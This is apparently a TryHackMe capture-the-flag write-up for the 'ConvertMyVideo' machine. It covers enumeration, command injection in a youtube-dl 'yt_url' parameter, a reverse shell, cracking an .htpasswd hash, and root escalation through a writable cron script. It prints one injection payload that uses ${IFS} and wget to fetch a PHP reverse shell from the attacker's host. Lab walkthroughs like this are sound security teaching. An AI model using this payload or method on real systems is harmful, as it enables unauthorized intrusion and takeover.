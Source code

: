 # ConvertMyVideo TryHackMe Writeup
## Level: Medium

![logo](1.png)

## Scanning
We launch nmap with scripts and software versions on all ports.

![](2.png)

## Enumeration
We access the website, we see that it is a simple application that collects the ID of a youtube video.
![](3.png)

We use **dirsearch** and list an interesting directory.
![](6.png)

We entry the *"/*******/"* directory and list a basic authentication panel.
![](4.png)

We continue reviewing the variable *"yt_url"* of the web application, investigating by Google I find this [github:](https://github.com/ytdl-org/youtube-dl/) where it shows us useful commands.

#### --version
![](7.png)

The **"--exec"** command not working....It seems that there are problems with the coding, looking for a way to solve the problem I discovered a way to be able to execute the **"ls"** command without problems.
![](8.png)

Okay, so let's use the payload so we can read the first flag.
![](9.png)


## Exploitation
We create a pentestmonkey reverse shell, raise a python server, set a netcat listening and use the following command to obtain a connection on the victim machine.

![](10.png)

```bash
<`wget${IFS}10.11.30.149:8000/m3.php${IFS}-O${IFS}/var/www/html/m3.php`
```

#### Reverse shell
![](11.png)

Once we have access to the inside of the machine, we read the file *".htpasswd"* and crack the hash with the dictionary **"rockyou.txt"**.

![](12.png)

#### Cracking with JTR
![](13.png)

## Privilege Escalation
After launching several reconnaissance scripts, I end up analyzing the processes that are being executed by the system on a scheduled basis with **pspy** tool and we detect a *"clean.sh"* script running with *"UID=0" (root)*.

![](14.png)

We check the permissions we have on the file, we see that we can write to it, so we insert a line to invoke a reverse shell with **netcat** and we put another **netcat** listening in our Kali.

![](15.png)

We wait a few minutes for the script to run with our malicious code and we will have an interactive connection as root.

![](16.png)

---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

<img src='https://m3n0sd0n4ld.github.io/imgs/linkedin.png' width='40' align='center'> [David-Uton](https://www.linkedin.com/in/david-uton/)
<img src='https://m3n0sd0n4ld.github.io/imgs/twitter.png' width='50' align='center'> [@David_Uton](https://twitter.com/David_Uton)

